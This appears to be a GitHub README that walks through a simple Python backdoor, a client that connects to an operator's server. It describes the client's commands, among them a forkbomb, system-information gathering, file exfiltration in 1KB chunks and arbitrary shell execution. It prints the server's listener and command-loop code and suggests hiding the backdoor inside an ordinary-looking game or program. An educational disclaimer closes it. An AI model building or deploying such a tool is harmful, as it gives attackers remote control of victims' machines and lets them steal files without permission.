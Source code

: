 # In simpler terms, a backdoor is a piece of software installed on a machine that gives someone remote access to a computer, usually without proper permission. For example, a hacker might use a backdoor to maintain remote access on a compromised machine. A hacker might disguise a backdoor inside a seemingly regular looking game or program. Once the user of the target machine runs the program, the backdoor hidden in the software will allow the hacker to remotely connect to the target machine, usually through a command line. Through that remote connection, the hacker can execute commands, edit and read files, and more.

Commands (Client):

1. "List files" (This command is used instead of ls because sometimes, ls is inconsistent)

2. "Forkbomb" (A forkbomb is an attack when a process replicates itself over and over again, causing all system resources to be consumed, usually causing the system to crash. The while loop infinitely duplicates the python process infinitely, causing the computer to crash)

3. "cd" (This command works better than the cd that is built into bash. This is because when the directory is changed in Linux, the python working directory isn't affected. This command uses os.chdir() to change the working directory in python and in Linux. Splitting the command allows for the argument (in this case, the directory to change to) to be processed separately)

4. "sysinfo" (The sysinfo command uses a combination of the platform module and the getpass module to get information about the system such as: the operating system, the hostname of the machine, the current user, the current os version, and processor architecture. This text is nicely formatted and sent to the host server)

5. "Download" (The download command is a little more complicated. Once again, the command is split to extract the argument. This time, instead of sending the data from the file all at once, the file must be split into 1024 byte (1KB) because the server can only receive 1 kilobyte at a time. Once the file is done sending, the client sends "DONE" (in bytes) to the server to let the server know that the file transfer is complete)

6. "Exit" (When calling exit, the text "exit" (in bytes) is sent to the server. This notifies the server to terminate the connection. Break exits the while True loop, terminating the program)

7. "Any other command" (If the command that was entered isn't a known internal command, it is executed through the system instead. The subprocess module is used to execute the command through the system's shell. The output is returned to two variables, STDOUT and STDERR. STDOUT is the standard system output. STDERR is the standard error output. The next if statement checks if the output went to STDOUT or STDERR. It sends the appropriate data once it has been checked)


#  if not cmd:
            print("Connection dropped")
            break
    except Exception as e:
        sock.send("An error has occured: {}".format(str(e)).encode())
sock.close()

"Finally, if no command is received, the program can assume that there was an error in the connection and will terminate the loop. Since the entire code is wrapped in a try-except, the program will send the exception to the server. Once the loop terminates, the socket will close".


# Server information - Explanation

# colorama.init()

LHOST = "127.0.0.1"
LPORT = 2222

"These first few lines are for initialization. The LHOST is the IP which the server will be hosted on. The LPORT is the port where the server will be hosted".

# sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind((LHOST, LPORT))
sock.listen(1)
print("Listening on port", LPORT)
client, addr = sock.accept()

"Lines 9-13 are for initializing the server. Once again, socket.AF_INET is to start a server on an IPV4 address and socket.SOCK_STREAM is to run the server on a TCP port. sock.bind((LHOST, LPORT)) starts a server on the given IP and port. sock.listen(1) tells the program to only accept one incoming connection. The client is an object that allows the program to interact with the connected client, for example, send data. The addr is a tuple that contains the IP and port of the connected client".

# while True:
    input_header = client.recv(1024)
    command = input(input_header.decode()).encode()

"Just like the client, the entire code is wrapped in a while True: loop so that the commands can constantly send and executed, until the loop breaks. The input_header is the text before the input. Example: hacked@linux-machine:/usr/hacked/Desktop$. This data is received from the client and is entered as an argument to the input function. The user is asked to enter a command, it is encoded into bytes and saved into the command variable".

#  if command.decode("utf-8").split(" ")[0] == "download":
        file_name = command.decode("utf-8").split(" ")[1][::-1]
        client.send(command)
        with open(file_name, "wb") as f:
            read_data = client.recv(1024)
            while read_data:
                f.write(read_data)
                read_data = client.recv(1024)
                if read_data == b"DONE":
                    break
        print("Finished reading data")

"There is only one pre-defined command built into the server; download. When download is executed, it opens a new file with the name of the file to be downloaded. Next, the function reads 1KB at a time and writes that data to the file. If the server receives the data "DONE" (in bytes), the loop for receiving data stops".

#   if command is b"":
        print("Please enter a command")

"If no command is entered, the user is reminded that data must be entered".

#   else:
        client.send(command)
        data = client.recv(1024).decode("utf-8")
        if data == "exit":
            print("Terminating connection", addr[0])
            break
        print(data)

"If none of the other conditions are met, the script sends the command to the client to be executed. The data variable receives the output from the command (sent by the client). If the data that is received is "exit", the server terminates the connection and breaks the loop, which exits the script. Once the loop breaks, the connection to the client and the server socket is closed".



# Remember, entering any computer without permission is illegal. This script was made because I am interested in how these types of technologies work. Do not use this program for any illegal reasons. This program is also a very simple backdoor and is not 100% stable or complete.


